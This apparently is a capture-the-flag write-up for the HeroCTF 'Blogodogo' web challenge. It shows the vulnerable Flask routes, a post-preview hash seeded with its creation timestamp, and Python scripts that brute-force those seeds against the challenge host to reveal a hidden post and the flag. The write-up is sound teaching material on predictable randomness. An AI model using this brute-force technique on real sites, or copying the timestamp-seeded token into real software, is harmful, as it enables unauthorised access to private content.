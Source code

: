 # Blogodogo

![](2023-05-15-14-36-22.png)

We are given the source code of a deployed blog application. This blog has a simple user and post system.

Registration for the site requires that we have a referral code. The referral code was securely generated and not guessable, so I devided to dive into the code to see what I could do without being authenticated.

Looking at the api calls in the `routes.py` file, the first thing I noticed is that I could enumerate users using the `/authors` api call.

```
@bp_routes.route("/author/<int:author_id>", methods=["GET"])
def view_author(author_id):
    author = Authors.query.filter_by(id=author_id).first()

    if author:
        posts = Posts.query.filter_by(author_id=author.id).all()
        return render_template("pages/author.html", title="Author profile", author=author, posts=posts)

    flash("Unable to find the corresponding author.", "warning")
    return redirect(url_for('bp_routes.index'))
```

Using this, I was able that there are valid user ids from 17-24, 17 being the admin user and 18-24 being other users. When you go to a user's view, you get to see all of the posts that the user has made and some additional information about the group.

On the admin page, I noticed the following post:

```
                    <div class="post-preview">
                        <a href="/post/secret-blog-posts">
                            <h2 class="post-title">Secret blog post (draft)</h2>
                            <h3 class="post-subtitle">Secret post!!</h3>
                        </a>
                        <p class="post-meta">
                            Posted by
                            <a href="/author/"></a>
                            on 2023-05-13 02:53
                        </p>
                    </div>
                    <!-- Divider-->
```

and this sort of gives us a goal that we are supposed to try and read this blog post.

Looks like we are given the slug, time it was posted, title and author.

Keeping this information in mind and looking at other API calls, I come across this API call:

```
@bp_routes.route("/post/preview/<string:hash_preview>", methods=["GET"])
def preview_post(hash_preview):
    post = Posts.query.filter_by(hash_preview=hash_preview).first()

    if post:
        author = Authors.query.filter_by(id=post.author_id).first()
        return render_template("pages/post.html", title="Preview a post", post=post, author=author)

    flash("Unable to find the corresponding post.", "warning")
    return redirect(url_for('bp_routes.index'))
```

Looks like if I can find the "hash" of a post, I can preview the post without authenticating. I searched for the hash function:

```
def generate_hash(timestamp=None):
    """Generate hash for post preview."""
    if timestamp:
        seed(timestamp)
    else:
        seed(int(datetime.now().timestamp()))

    return randbytes(32).hex()
```

Looks like a post hash is generated with the time it was created, which we have, so we can view the preview of any post.

The one problem here is that the we dont exactly know which timezone the post was made in.

I started off with the following script to generate the timestamp:

```
from datetime import datetime
import pytz
import requests
from time import sleep
from random import seed, randbytes

def get_timestamps(datetime_str):
    dt = datetime.strptime(datetime_str, "%Y-%m-%d %H:%M")
    timestamps = []

    for tz in pytz.all_timezones:
        timezone = pytz.timezone(tz)
        dt_tz = timezone.localize(dt)
        timestamps.append(int(dt_tz.timestamp()))

    return timestamps



datetime_str = "2023-05-13 02:53"
timestamps = get_timestamps(datetime_str)

DOMAIN = "http://dyn-02.heroctf.fr:11131"
RESOURCE = "/post/preview/"

for ts in timestamps:
    seed(ts)
    slug = randbytes(32).hex()
    url = DOMAIN + RESOURCE + slug
    print(f"Trying {url}")
    r = requests.get(url)
    if "Unable to find the corresponding post" not in r.text:
        print("Answer Found!")
        print(ts)
        print(url)
        exit(1)
```

but this would take way too long, and does not account for one extra thing.

I realized that the challenge is containerized so I used the default docker timezone.

The next thing to consider is that we have the time down to the minute, but we do not know which second it was generated. This means we have to brute force for the second that the post was generated to look for the correct hash.

I revised the above script to this:

```
base_timestamp = 1683946380
for i in range(0,60):
    seed(base_timestamp+i)
    slug = randbytes(32).hex()
    url = DOMAIN + RESOURCE + slug
    print(f"Trying {url}")
    r = requests.get(url)
    if "Unable to find the corresponding post" not in r.text:
        print("Answer Found!")
        print(base_timestamp+i)
        print(url)
        exit(1)
```

to get the proper hash:

```
$ python3 sol.py
Trying http://dyn-02.heroctf.fr:11131/post/preview/8f2c71ce47d92eb5c185e22e6971343d4563f76bcb0557b94f693518a89dbd6b
Trying http://dyn-02.heroctf.fr:11131/post/preview/326b66c2d792443c3e8b42b72d12de4c8479a7fb95397fb8b752ef5892063c39
Trying http://dyn-02.heroctf.fr:11131/post/preview/1cfe4b77d1ca38b0a0214c7054227f09c81feafd402dacd63e19d4a11a821de2
Trying http://dyn-02.heroctf.fr:11131/post/preview/43aa568512ee3bc7a811fb914f414d16943cabbe1965fe8ddaf6a3e97050bf33
Trying http://dyn-02.heroctf.fr:11131/post/preview/0d9d61246675dd0285470e75621f5f8386f56b4c51c3979e6d413b7f95c24f53
Trying http://dyn-02.heroctf.fr:11131/post/preview/a83dd5479a1b3d66ce1608cde2f326a9994e88b456bc440b24368fcfdd45ea7d
Trying http://dyn-02.heroctf.fr:11131/post/preview/1f3d876956261cd57a971a44114953fe847ff1a0db9d9820c43b942360879bf6
Trying http://dyn-02.heroctf.fr:11131/post/preview/20030b5d29001f7856c0e7e034e00b8b715d24237f67cf2ea6ec34faee3bb08b
Answer Found!
1683946387
http://dyn-02.heroctf.fr:11131/post/preview/20030b5d29001f7856c0e7e034e00b8b715d24237f67cf2ea6ec34faee3bb08b
```

and get the flag:

```
Well played ! You can now register users ! Here is the referral code: 83d99a0ac225079db31b44a2e58b19f0. Hero{pr3333vi333wwwws_5973791}
```

Flag: `Hero{pr3333vi333wwwws_5973791} `
